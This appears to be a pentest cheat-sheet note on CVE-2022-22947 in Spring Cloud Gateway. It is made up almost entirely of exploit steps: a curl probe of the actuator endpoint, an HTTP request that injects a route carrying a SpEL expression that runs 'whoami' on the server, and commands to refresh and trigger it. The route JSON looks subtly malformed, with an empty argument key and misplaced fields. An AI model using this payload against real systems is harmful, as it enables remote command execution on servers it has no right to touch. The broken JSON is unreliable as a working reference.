 ```yaml
---
title: CVE
---
```


# CVE

## CVE-2022-22947

- Java, SpringCloud Gateway
  - 3.1.0
  - 3.0.0-3.0.6
  - < 3.0

```bash
# 测试 gateway 是否开启 actuator 管理
curl -X POST http://gateway/actuator/gateway/refresh -v
```

**注入恶意路由**

```http
POST http://gateway/actuator/gateway/routes/pentest
Content-Type: application/json

{
  "id": "pentest",
  "filters": [
    {
      "name": "AddResponseHeader",
      "args": {
        "name": "X-Request-Foo",
        "": "#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(getRuntime().exec(new String[]{\"whoami\"}).getInputStream()))}"
      },
      "uri": "http://httpbin.org/get",
      "predicates": [
        {
          "name": "Method",
          "args": {
            "_key_0": "GET"
          }
        },
        {
          "name": "Path",
          "args": {
            "_key_0": "/pentest"
          }
        }
      ]
    }
  ]
}
```

```bash
# 刷新
curl -X POST http://gateway/actuator/gateway/refresh -v
# 新的路由包含 X-Request-Foo: $(whoami)
curl -X POST http://gateway/pentest -v
```

**配置不同时满足即可**

```ini
management.endpoint.gateway.enabled=true # default value
management.endpoints.web.exposure.include=gateway
```

- https://spring.io/security/cve-2022-22947
- https://www.anquanke.com/post/id/269795
